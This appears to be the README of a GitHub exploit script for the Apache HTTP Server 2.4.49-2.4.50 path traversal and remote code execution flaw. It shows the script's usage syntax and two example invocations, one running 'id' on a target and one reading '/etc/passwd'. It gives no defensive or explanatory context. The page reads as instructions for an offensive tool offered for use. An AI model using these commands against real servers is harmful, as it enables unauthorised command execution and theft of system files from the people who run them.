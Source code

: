 # Apache HTTP-Server 2.4.49-2.4.50 Path Traversal & Remote Code 
## Usage: 
```
python3 exploit.py <rhost> <rport> <option> <cmd/file-absolute-path>
```
## Example:
### Remote Code Execution
```
python3 exploit.py 127.0.0.1 8080 rce 'id'
```

### Path Traversal
```
python3 exploit.py 127.0.0.1 8080 file '/etc/passwd'
```
